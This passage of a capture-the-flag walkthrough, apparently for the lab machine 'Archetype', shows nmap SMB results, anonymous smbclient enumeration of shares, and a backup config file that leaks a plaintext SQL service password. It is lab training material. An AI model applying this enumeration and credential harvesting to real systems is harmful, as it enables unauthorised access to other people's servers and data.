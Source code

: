 ```shell
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-08-17T12:58:59-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-17T19:58:57
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.16 seconds
```

### SQL Server
We can notice that it contains a SQL Server which we are going to access with ```smbclient```.

We will list the smb folders with:
```shell
smbclient -L \\10.10.10.27 -N

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```

We will access the "**backups**" folder with:
```shell
smbclient -N \\10.10.10.27/backups
Try "help" to get a list of possible commands.
smb: \>
```
![SMB](file.png)

The file prod.dtsConfig contains:
```text
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

